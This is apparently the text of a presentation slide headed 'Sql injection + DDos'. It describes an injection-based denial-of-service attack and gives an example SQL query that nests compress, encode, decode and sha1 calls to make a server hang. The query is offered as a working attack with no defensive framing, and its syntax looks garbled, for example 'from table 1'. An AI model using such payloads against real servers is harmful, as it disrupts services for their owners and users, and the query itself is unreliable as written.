

# Sql injection + DDos
DDos
What it does
Example code
This attack uses sql injection to hang a server
Creates a table of 500 rows with text having 500 bytes of data per column. This attack is useful for DDOS because it does not require many bots.
Select tab1 from (select decode(encode(convert(compress(post)using latin2), concat (post,post,post,post)), sha1(concat(post,post,post,post)))as tab1 from table 1